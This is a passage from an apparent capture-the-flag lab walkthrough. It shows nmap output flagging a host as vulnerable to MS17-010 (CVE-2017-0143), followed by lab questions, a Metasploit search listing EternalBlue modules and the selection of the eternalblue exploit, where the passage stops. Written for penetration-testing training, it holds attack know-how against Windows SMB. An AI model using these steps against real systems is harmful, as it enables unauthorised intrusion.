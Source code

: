     |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
    |_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

    Nmap done: 1 IP address (1 host up) scanned in 151.82 seconds
    ```

## Gain Access
- Start Metasploit
- Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
    ```bash
    msf6 > search CVE-2017-0143

    Matching Modules
    ================

    #  Name                                           Disclosure Date  Rank     Check  Description
    -  ----                                           ---------------  ----     -----  -----------
    0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
    1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
    2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
    3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
    4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
    5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
    ```

- Show options and set the one required value. What is the name of this value? (All caps for submission)
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > options 

